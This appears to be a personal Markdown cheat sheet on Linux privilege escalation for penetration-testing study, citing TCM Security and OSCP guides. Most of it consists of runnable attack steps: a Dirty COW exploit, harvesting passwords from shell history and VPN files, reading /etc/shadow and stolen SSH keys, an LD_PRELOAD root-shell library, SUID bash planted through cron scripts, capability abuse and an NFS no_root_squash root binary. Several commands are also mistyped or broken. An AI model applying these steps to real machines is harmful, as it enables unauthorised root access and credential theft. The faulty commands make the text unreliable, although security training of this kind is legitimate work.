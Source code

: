 # Linux Privilege Escalation

# [Back To Command-Center](../Command-Center%2067dcab8dad014156bed16a9e6953166c.md)

## //cheat-sheet

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools and commands, these are quick notes on how to privesc in Linux.

**For the full tutorial and lectures it is highly recommended to take the LINUX PRIVESC course from [TCM-SECURITY](https://academy.tcm-sec.com/).**

### Resources:

- **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
- **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
- **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

- **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
- **[linenum](https://github.com/rebootuser/LinEnum)**
- **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits

### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

- **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**
- chek kernel version on target system: `uname -a`
- compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
- use dirty c0w on target machine `./cow`
- c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
- type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

### Escalation via stored passwords:

- see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
- cat out the `cat .bash_history` as well
- you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
- `ps aux` to see processes
- `w` to see who's logged in
- when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
- ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

### Escalation via weak file permissions:

- `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
- passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
- **x** is a placeholder in it for the hash which contains the password from the shadow file
- if we can modify /etc/passwd the x in the file we could become root, like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
- we can change the hash to one where we know the password and become root like that

### Escalation via ssh keys:

- `find / -name authorized_keys 2>/dev/null`
- `find / -name id_rsa 2>/dev/null`
- once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
- `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

### Preloading

- it's a feature of LD (dynamic linker)
- we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
- `nano shell.c`
- `#include <stdio.h>`
- `#include <sys/types.h>`
- `#include <stdlib.h>`
- `void_init() {`
- `unsetenv("LD_PRELOAD");`
- `setgid(0);`
- `setuid(0);`
- `system("/bin/bash");`
- `}`
- don't forget to include tabs with lines: unsetenv, segid, setuid, system
- compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
- ***fPIC is position independent code***, regardless of what your shell address is, it will work
- need full path to ***shell.so***
- run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

- to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

### Shared object injection:

- strace is diagnosing, debugging Linux for tampering and monitoring
- `strace /usr/local/bin/suid-so 2>&1`
- grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`

### Symbolic link

- symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
- create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- export service: `export -f /usr/sbin/service`
- compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

- searching for capabilities: `getcap -r / 2>/dev/null`
- found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
- execute: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

- **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
- `17 * * *` every 17th minutes execute a command for a user
- `* * * root /user/local/bin/compress.sh`
- `* * * root overwrite.sh`
- then
- `systemctl list-timers --all`
- add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
- wait for crontab to kick in and run: `/tmp/bash -p` and we're root!
- ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***
- **Another way of overwriting the crontab file is:**
- `cat /usr/local/bin/overwrite.sh`
- `nano /usr/local/bin/overwrite.sh`
- `#!/bin/bash`
- `echo date > /tmp/useless`
- `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
- now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
- `whoami`
- **root!**

### Escalation via NFS root squashing

- on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
- `showmount -e <target IP>` results will show up
- `/tm *`
- make a folder on your machine `mkdir /tmp/mountme`
- and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`
- from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
- chande mod: `chmod +x /tmp/mountme/x`
- now cd over to /tmp on target machine and execute `./x`
- we're root!

### Upgrade your shell on target machine

- `python 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- background your shell with **CTRL+Z**
- `ptty raw -echo; fg`
